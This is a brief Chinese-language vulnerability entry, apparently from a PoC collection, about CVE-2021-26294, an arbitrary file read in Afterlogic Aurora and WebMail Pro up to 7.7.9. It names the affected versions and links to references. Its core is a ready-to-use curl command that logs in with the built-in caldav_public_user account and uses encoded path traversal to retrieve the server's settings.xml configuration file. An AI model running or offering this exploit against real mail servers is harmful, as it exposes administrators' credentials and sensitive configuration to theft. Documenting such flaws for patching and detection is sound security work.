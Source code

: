 # Afterlogic Aurora & WebMail Pro 任意文件读取（CVE-2021-26294）

攻击者可以通过caldav_public_user@localhost用户登录，不需要其它用户信息就可以读取配置文件从而获得敏感信息。

影响版本：

* WebMail Pro ≤ 7.7.9
* Afterlogic Aurora ≤ 7.7.9

PoC：


```bash
curl -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data/settings/settings.xml"
```

ref：

* http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26294
* https://github.com/E3SEC/AfterLogic/blob/main/CVE-2021-26294-exposure-of-sensitive-information-vulnerability.md
* https://forum.ywhack.com/thread-115326-1-8.html